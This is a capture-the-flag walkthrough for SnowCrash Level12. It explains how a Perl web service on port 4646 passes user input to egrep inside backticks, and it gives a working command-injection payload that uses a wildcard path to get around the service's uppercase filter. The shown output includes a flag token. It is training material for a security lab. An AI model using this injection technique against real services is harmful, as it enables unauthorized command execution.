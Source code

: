 # Level12


This `perl` script is a server in port `4646`. 
There are two parameters, 1 of which `x` has been modified and used.  

Each char of this parameter is uppercased using [binding operator](https://perldoc.perl.org/perlop#Binding-Operators). The parameter is also split when a space in find.  
For example: `x="hello world"`
After the changement, x will be: `HELLO`

```perl
$xx =~ tr/a-z/A-Z/; 
$xx =~ s/\s.*//;
```

We have this line in which a grep is execute to get line in `/tmp/xd`. If the line match with `x` it's return in `output`.  

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

So we can try to close the backtip to execute our command/script.  
So the payload will be:  

```bash
curl 127.0.0.1:4646?x='`OURSCRIPT`'
```
We must close the backtip and open-it after our command/script.  

Because space and lower char are modified we must write a script file with our script.
Using of `wildcard` is required because of the directory in which we can write is `tmp`, a name with only lower case.  

```bash
level12@SnowCrash:~$ echo "/bin/getflag | wall" > /tmp/SCRIPT
level12@SnowCrash:~$ chmod a+x /tmp/SCRIPT
level12@SnowCrash:~$ curl 127.0.0.1:4646?x='`/*/SCRIPT`'
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 7:27 ...                                                
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
